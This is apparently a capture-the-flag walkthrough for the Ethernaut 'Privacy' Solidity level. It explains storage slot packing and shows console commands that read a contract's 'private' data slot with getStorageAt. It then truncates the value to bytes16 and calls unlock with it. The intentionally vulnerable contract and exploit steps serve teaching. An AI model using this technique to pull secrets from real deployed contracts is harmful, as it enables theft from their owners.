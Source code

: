 # 12 Privacy

```
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

Understanding how storage works
Understanding how parameter parsing works
Understanding how casting works
Tips:

Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}

```

#### Start 


### (1) `Unlock this contract `


As we know Ethereum stores data on the blockchain from the `ethernaut 08 Vault `, 
we have a bit more to know: 

```
Structs and array data always start a new slot and occupy whole slots 
(but items inside a struct or array are packed tightly according to these rules).
```
To get through we need set `locked = false` , we need to call `function unlock(bytes16 _key) public` and pass the condition 

`require(_key == bytes16(data[2]));` So we need data (data[2]) .

let's start

.

.

.

Looking at the code, You can see  the contract Privacy have data structure  like this
```
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;
```

slot sotrage will be like this

```
  Contract Privacy  {                                                                                             Storage in contract Privacy 
    bool public locked = true;                                                 slot 0 |                         (empty slot 31) - locked(1 bytes)                                  |
    uint256 public ID = block.timestamp;                                       slot 1 |                                 ID(32 bytes)                                               |
    uint8 private flattening = 10;                                             slot 2 | (empty slot 28bytes) - awkwardness(2 bytes) - denomination(1 bytes) - flattening(1 bytes)  |
    uint8 private denomination = 255;                        ----------------> slot 3 |                                data[0](32 bytes)                                           | 
    uint16 private awkwardness = uint16(block.timestamp);                      slot 4 |                                data[1](32 bytes)                                           | 
    bytes32[3] private data;                                                   slot 5 |                                data[2](32 bytes)                                           |
  }
```
we get the location of the strorage slot of the variable `data[2]` we are going to access, what do we do next?

Web3 library allows you to reach into contract storage via:  `web3.eth.getStorageAt(contractAddress, slotNumber)`


#### Open Developer Tools (F12)

- (1)  type `await web3.eth.getStorageAt(contract.address,5)` 

   you will see a message 
   
   `'0x1ea794c80a7aca8f2d34ad56b2f0bdbbe5da58d7b6dd4dd16986cea9181d4615'` this is password 

   
  But you can't use this password yet because it has to be casting to bytes16 
   
- (2)  In this step we will write a bit of code on the remix to see what the password will be casting to bytes16
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract castToBytes16 {
      function cast() external pure returns (bytes16) {
          bytes32  data = 0x1ea794c80a7aca8f2d34ad56b2f0bdbbe5da58d7b6dd4dd16986cea9181d4615;
          return bytes16(data);
        }
    }
    ```

    call `function cast() external pure returns (bytes16)`  
    
    you will see a message  `0:  bytes16: 0x1ea794c80a7aca8f2d34ad56b2f0bdbb` This is the password we can use.


- (3)  type `await contract.unlock('0x1ea794c80a7aca8f2d34ad56b2f0bdbb')` and confirm transaction

Click button Submit instance and confirm 

# !!! we passed !!!

#### ***Additional things to know
when you downcast is meant you will lose data because you put bigger data to smaller storage

You can see from where we dowcast bytes32 to bytes16, 

An example from where we did this challenge


`bytes32` 0x1ea794c80a7aca8f2d34ad56b2f0bdbbe5da58d7b6dd4dd16986cea9181d4615
        
`bytes16` 0x1ea794c80a7aca8f2d34ad56b2f0bdbb

result : It will takes higher order 16 bytes and cut off the rest



